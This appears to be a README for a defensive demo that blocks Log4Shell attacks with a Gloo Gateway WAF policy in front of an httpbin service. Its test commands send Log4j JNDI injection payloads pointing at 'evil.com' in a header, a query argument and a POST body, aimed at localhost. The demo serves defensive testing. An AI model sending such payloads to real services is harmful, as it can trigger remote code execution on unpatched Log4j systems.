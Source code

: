 # Block Log4Shell attacks with Gloo Gateway

https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/

## Deploy httpbin

```sh
kubectl create namespace httpbin --context gloo
kubectl --context gloo label namespace httpbin istio-injection=enabled

kubectl apply -f log4shell/httpbin.yaml -n httpbin --context gloo
```

## Gloo Mesh Config

```sh
kubectl apply -f log4shell/workspace.yaml --context gloo
kubectl apply -f log4shell/virtual-gateway.yaml --context gloo
kubectl apply -f log4shell/route-table.yaml --context gloo
```

## Test Bad Call

This call has a potentially malicious remote-access header passed in through the `User-Agent` header. If the responding service was a Java service using an unpatched version of Log4j, then we could be in real trouble. The call is accepted without intervention.

```sh
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```

## Apply Policy

```sh
kubectl apply -f log4shell/waf-policy.yaml --context gloo
```

## Re-test Bad Calls

Now we have a WAF policy in place that blocks potentially malicious headers, request argument, and request payloads. Note that all of these "attacks" are now rejected by Gloo Gateway before they reach the upstream service.

```sh
# Request Header Attacks
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
# Request Argument Attacks
curl -X GET localhost:8080/anything\?arg-1=\$\\{jndi:ldap://evil.com/x\\} -i
# Request Payload Attacks
curl -X POST -d "arg-1=\${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```
